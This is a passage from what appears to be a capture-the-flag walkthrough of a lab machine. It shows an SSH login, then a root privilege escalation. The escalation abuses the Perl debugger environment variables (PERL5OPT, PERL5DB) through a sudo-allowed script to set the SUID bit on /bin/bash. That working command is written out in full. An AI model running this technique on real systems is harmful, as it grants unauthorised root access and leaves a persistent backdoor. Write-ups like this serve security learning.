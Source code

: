 ```bash
ssh -i id_rsa jack@10.10.11.232
```

We should be able to get the user flag now.

## Privilege escalation
---
As always, we are going to look which processes are running with superuser permissions and are also, visible to us.

```bash
sudo -l
```

We see the script `/opt/monitor.sh`, let's see what contains using the cat tool:

![monitor.sh content](monitor-sh.png)

After some research, we found that `/usr/bin/xml_pp` is using Perl script to run.

There is a vulnerability called **perl_startup** that enables us to execute scripts with root privileges.

We online have to execute:

```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh

bash -p
```

![root shell](root_shell.png)

Once we obtain a root shell, we can access the system as superuser. We have already compromised the whole system and (of course) we can now obtain the final flag of the challenge.

> H4Ppy H4ck1ng!
